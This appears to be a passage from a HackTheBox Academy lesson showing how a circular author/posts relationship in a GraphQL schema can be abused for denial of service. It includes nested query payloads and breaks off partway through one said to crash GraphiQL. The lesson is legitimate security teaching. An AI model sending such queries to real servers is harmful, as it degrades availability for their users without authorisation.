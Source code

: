 To execute a DoS attack, we must identify a way to construct a query that results in a large response. Let's look at the visualization of the introspection results in `GraphQL Voyager`. We can identify a loop between the `UserObject` and `PostObject` via the `author` and `posts` fields:

![](https://academy.hackthebox.com/storage/modules/271/info_5.png)

We can abuse this loop by constructing a query that queries the author of all posts. For each author, we then query the author of all posts again. If we repeat this many times, the result grows exponentially larger, potentially resulting in a DoS scenario.

Since the `posts` object is a `connection`, we need to specify the `edges` and `node` fields to obtain a reference to the corresponding `Post` object. As an example, let us query the author of all posts. From there, we will query all posts by each author and then the author's username for each of these posts:

```graphql
{
  posts {
    author {
      posts {
        edges {
          node {
            author {
              username
            }
          }
        }
      }
    }
  }
}

```

This is an infinite loop we can repeat as many times as we want. If we take a look at the result of this query, it is already quite large because the response grows exponentially larger with each iteration of the loop we query:

![](https://academy.hackthebox.com/storage/modules/271/dos_1.png)

Making our initial query large will slow down the server significantly, potentially causing availability issues for other users. For instance, the following query crashes the `GraphiQL` instance:

```graphql
{
  posts {
    author {
      posts {
        edges {
          node {
            author {
              posts {
                edges {
                  node {
                    author {
                      posts {
                        edges {
                          node {
                            author {
                              posts {
                                edges {
                                  node {
                                    author {
                                      posts {
                                        edges {
                                          node {
                                            author {
```